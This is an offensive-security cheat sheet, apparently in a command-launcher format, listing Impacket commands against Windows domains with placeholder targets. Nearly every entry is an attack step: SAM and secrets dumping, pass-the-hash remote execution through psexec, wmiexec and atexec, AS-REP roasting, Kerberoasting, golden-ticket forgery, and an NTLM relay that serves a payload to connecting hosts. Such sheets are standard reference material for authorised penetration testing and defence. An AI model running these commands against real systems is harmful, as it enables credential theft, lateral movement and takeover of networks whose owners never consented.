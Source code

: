 # Impacket

% impacket, windows, smb, 445

## smbclient - connect to smb on the target
```
smbclient.py <domain>/<user>:<password>@<ip>
```

## smbserver - share smb folder
```
impacket-smbserver <shareName> <sharePath>
```

## smbserver - share smb folder with authentication
```
impacket-smbserver -username <username> -password <password> <shareName> <sharePath>
```

## lookupsid - SID User Enumeration,  extract the information about what users exist and their data. 
```
lookupsid.py <domain>/<user>:<password>@<ip>
```

## reg - query registry info remotely
```
reg.py <domain>/<user>:<password>@<ip> query -keyName HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows -s
```

## rpcdump - list rpc endpoint
```
rpcdump.py <domain>/<user>:<password>@<ip>
```

## samrdump - system account, shares, etc... (dump info from the Security Account Manager (SAM))
```
samrdump.py <domain>/<user>:<password>@<ip>
```

## services.py - (start, stop, delete, read status, config, list, create and change any service) remote
```
services.py <domain>/<user>:<password>@<ip> <action>
``` 

## getarch - find target architecture (64 or 32 bits)
```
getArch.py -target <ip>
```

## netview - enumeration tool (ip/shares/sessions/logged users) - need dns set
```
netview.py <domain>/<user> -target <ip> -users <users_file>
```

## secretdump
```
secretsdump.py '<domain>/<user>:<pass>'@<ip>
```

% impacket, windows, exec

## PSEXEC with username // create a new service (using \pipe\svcctl via SMB)
```
psexec.py <domain>/<user>:<password>@<ip>
```

## PSEXEC with Hash // create a new service (using \pipe\svcctl via SMB)
```
psexec.py -hashes <hash> <user>@<ip>
```

## PSEXEC with kerberos // create a new service (using \pipe\svcctl via SMB)
```
export KRB5CCNAME=<ccache_file>; psexec.py -dc-ip <dc_ip> -target-ip <ip>> -no-pass -k <domain>/<user>@<target_name>
```

## wmiexec (execute a command shell without touching the disk or running a new service using DCOM)
```
wmiexec.py <domain>/<user>:<password>@<ip>
```

## wmiexec  with hash (execute a command shell without touching the disk or running a new service using DCOM)
```
wmiexec.py -hashes <hash> <user>@<ip>
```

## atexec - execute command view the task scheduler (using \pipe\atsvc via SMB)
```
atexec.py <domain>/<user>:<password>@<ip> "command"
```

## atexec hashes - execute command view the task scheduler (using \pipe\atsvc via SMB)
```
atexec.py -hashes <hash> <user>@<ip> "command"
```

% impacket, windows, kerberos, 88

## GetNPUsers without password to get TGT
```
GetNPUsers.py <domain>/<user> -no-pass -request -format hashcat
```

## GetNPUsers - attempt to list and get TGTs for those users that have the property ‘Do not require Kerberos preauthentication’
```
GetNPUsers.py -dc-ip <dc_ip> <domain>/ -usersfile <users_file> -format hashcat
```

## GetUSERSPN - find Service Principal Names that are associated with a normal user account
```
GetUserSPNs.py -request -dc-ip <dc_ip> <domain>/<user>:<password>
```

## Ticketer - (golden ticket) - generate TGT/TGS tickets into ccache format which can be converted further into kirbi.
```
ticketer.py -nthash <nthash> -domain-sid <domain_sid> -domain <domain> <user>
```

## TicketConverter - convert kirbi files (commonly used by mimikatz) into ccache files used by impacket
```
ticketConverter.py <ccache_ticket_file> <ticket_kirbi_file>
```

## GetTGT - request a TGT and save it as ccache for given a password, hash or aesKey
```
getTGT.py -dc-ip <dc_ip> -hashes <lm_hash>:<nt_hash> <domain>/<user>
```

## GetADUser - gather data about the domain’s users and their corresponding email addresses
```
GetADUSers.py -all <domain>/<user>:<password> -dc-ip <dc_ip>
```

## ntlmrelay - host a payload that will automatically be served to the remote host connecting
```
impacket-ntlmrelayx -tf <targets_file> -e <payload_file>
```

## ntlmrelay - to use with mitm6
```
impacket-ntlmrelayx -wh <ip_server_hosting_wpad_file> -t smb://<target_ip>/ -i
```
